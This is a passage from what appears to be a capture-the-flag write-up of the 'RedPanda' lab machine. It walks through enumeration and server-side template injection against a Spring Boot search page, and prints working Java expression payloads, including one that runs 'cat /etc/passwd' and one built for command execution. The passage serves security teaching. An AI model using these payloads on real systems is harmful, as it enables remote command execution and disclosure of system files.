 Looks like something is being hosted on `8080`. We'll load up `Burpsuite` and see what it is.

![](/images/redpanda/panda1.png)

Just a page with a search function. We'll toss a `gobuster` at it to start.

Command:
`gobuster dir -u http://10.10.11.170:8080 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

Right off the bat we see two hits `/search` and `/stats`. When we visit the `stats` page we get an option to see stats on an author.

![](/images/redpanda/panda2.png)

Each has a link to an image and the option to export the table via `export.xml`. This is something we might be able to abuse. We also look for `XSS` in the search function but nothing basi really pops out. One thing we do notice is that in the request, we see `Red Panda Search | Made with Spring Boot` as the title tag. A quick Google shows that this is a `Java` based template framework. There were also some other exploits listed but need to test out what we might be working with in the search field. A great place to start is [PayloadsAllTheThings](https://swisskyrepo.github.io/PayloadsAllTheThingsWeb/Server%20Side%20Template%20Injection/#summary).

![](/images/redpanda/panda3.png)

Now, we see that `#` and `~` do not work with the `{7*7}` tester - but `*` and `@` does. Now from that same page, we see what `*{T(java.lang.System).getenv()}` returns.

![](/images/redpanda/panda4.png)

Well, that works, let's ratchet it up a bit and try to cat `/etc/passwd`. We try with the first sugestion, nothing. Howver the second query works:
 ```
 *{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}
 ```

Now we need to take this base query and weaponize it. The first thing to try is to slim this down to just the `.exec()` function: `*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec()`. Now we'll simply try to get the command to do a simple `ls`.

Command:
`*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec("ls")}` 

Nothing. More searching around lead me [here](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/ssti-server-side-template-injection/el-expression-language.md). This has a bit different method of calling the `Java` methods. 

Now our payload looks like this:
`*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("ls")}`
